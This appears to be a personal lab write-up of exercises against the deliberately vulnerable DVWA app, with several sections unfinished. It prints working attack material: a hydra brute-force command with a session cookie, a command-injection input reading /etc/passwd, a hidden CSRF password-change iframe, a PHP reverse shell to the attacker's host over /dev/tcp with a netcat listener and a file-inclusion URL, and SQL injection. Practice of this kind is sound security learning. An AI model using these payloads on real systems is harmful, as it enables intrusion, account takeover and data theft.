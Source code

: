 # [Brute Force]

--- 

## Steps to Exploit

1. Navigate to a directory with a wordlist in it. Or copy one to a directory. Or set the path to it in hydra.
2. hydra -l admin -P rockyou.txt 192.168.1.117 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=58g00j5r76tjr9jhji9gbif564;security=medium:F=Username and/or password incorrect."
- -l states its a login
- -P calls a pass list
- IP is DVWA dest IP on vlan (hopefully lol)
- Set web server directory
- If you inspect the DVWA login form you will see the name of the elements you need to specify for hydra to know what on the web page its trying to brute force.
- Set cookies. Without DVWA rejects the request as it doesn't represent a legitimate request. Can get these from performing a get request on the server and viewing dev stuff in firefox/chrome/brave etc.
3. Login


# [Command Execution]

--- 

## Steps to Exploit MEDIUM

1. Get an IP from your internal network/vlan.
- In Linux arp -a
2. Different command chaining options
- ; && || | $()
3. Try all of these. Some work
4. 192.168.1.1 | cat /etc/passwd

## Steps to Exploit HIGH

1. Use the same IP from before I guess.
2. Interesting as the .php splits the IP input into four octets and validates the input. 

# [CSRF]

--- 

## Steps to Exploit

1. So to make this a bit more interesting I'll whack it in an iframe. When loaded it will change your password on DVWA.
2. After having a look at network in dev tools the request is a GET request when changing pass
3. Also observed if you have a look in the URL after changing the password the params are very easily editable to change pass
4. Because there isn't a token in the GET request, we don't need to call a specific cookie/user token to choose what accounts password we are changing.
5. Here's the iframe snippet
<pre>
    <iframe> 
      src="http://192.168.1.117/dvwa/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change" 
      width="0" 
      height="0" 
      style="display:none;">
    </iframe>
</pre>
6. Changes password to 'password123' for the user that is logged in. This only works if the user is logged into the website at the time.
7. To test this work you can boot up burp for your browser and you will see the forward request come through when you load this malicious html file.
8. You can also host a HTTP server on your host as well. Then if I visit (my-host-ip:port-assigned-to-http-server/malicious-html-filename.html it will commit the change.
9. So I could send this link to a mailbox. And anything that clicks on, that is logged in to the website in question. Will have there password changed.
10. CSRF vulnerabilities are quite obsolete now as most modern sites don't send cookies via GET/POST requests.


# [File Inclusion]

---

## Steps to Exploit LOW

- I've done Low here cause I think it's neat. And demonstrates a bit.

1. Alright lets run a .php reverse shell for this
2. Find ur ip on the internal network/vlan
3. <?php exec("/bin/bash -c 'bash -i>& /dev/tcp/192.168.1.120/1234 0>&1'"); ?>
- Save as shell.php
- IP is your Kali machines IP and the port is whatever port you are going to run the listener on
4. 'Python -m http.server'
5. 'nc -lvnp 1234'
6. Now in the URL in DVWA. Set http://192.168.1.117/dvwa/vulnerabilities/fi/?page=http://192.168.1.120:8080/shell.php (Whatever the equivalent is for ur machine)
7. This tricks the web server into running the .php file from our kali machine. Thus, creating a reverse shell. Easy right!

## Steps to Exploit MEDIUM

# [SQL Injection]

---

## Steps to Exploit MEDIUM
1. Looking at the .php code we can see that mysql_real_escape_string is used
- This escapes ' " \ NULL so none of these can be used in the SQLi
2. So instead we will just use 1 OR 1=1
- 1 because we want the first and last name of user 1. OR 1=1 which is always true.
- So the query would look like this in the backend <pre> $getid = "SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1"; </pre>
- Which would then set the $id variable to <pre> $id=1 OR TRUE </pre>
- Thus returning all values
3. Now lets pull some tables
- I tried using sqlmap but maybe my VM 'Broken Web App OWASP' is buggered idk. Couldn't fingerprint the DB for some reason. So we go manual (rip)
4. I've just discovered that I'm using DVWA Version 1.8 from 2011.
5. Alright now I'm running a recent version lets try this again.
6. 

## Steps to Exploit HIGH
1. Alright in the .php code we can see mysql_real_escape_string() and stripslashes() added for input validation
2. Stripslashes() removes the \ character from queries
3. We can also see is_numeric is called meaning our input will only accept integers
4. 

